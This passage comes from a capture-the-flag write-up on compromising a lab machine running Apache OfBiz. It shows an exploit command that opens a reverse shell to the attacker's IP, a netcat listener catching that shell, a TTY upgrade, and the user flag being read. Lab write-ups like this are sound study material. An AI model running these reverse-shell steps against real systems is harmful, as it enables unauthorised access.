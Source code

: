 
    oxdf@hacky$ python exploit.py https://bizness.htb shell 10.10.14.6:443
    Not Sure Worked or not



At `nc`, there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.252 43366
    bash: cannot set terminal process group (552): Inappropriate ioctl for device
    bash: no job control in this shell
    ofbiz@bizness:/opt/ofbiz$



I'll upgrade my shell using [the standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    ofbiz@bizness:/opt/ofbiz$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    ofbiz@bizness:/opt/ofbiz$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    ofbiz@bizness:/opt/ofbiz$



And grab `user.txt` from `/home/ofbiz`:



    ofbiz@bizness:~$ cat user.txt
    f4e81ade************************



## Shell as root

### Enumeration

#### Derby Background

It's very standard to look for stored passwords and password hashes the
database / filesystem of a just-exploited web application. That proves
tricky on OfBiz because there's so much going on in the `/opt/ofbiz`
directory with almost 18 thousand files:



    ofbiz@bizness:/opt/ofbiz$ find . -type f | wc -l
    17731
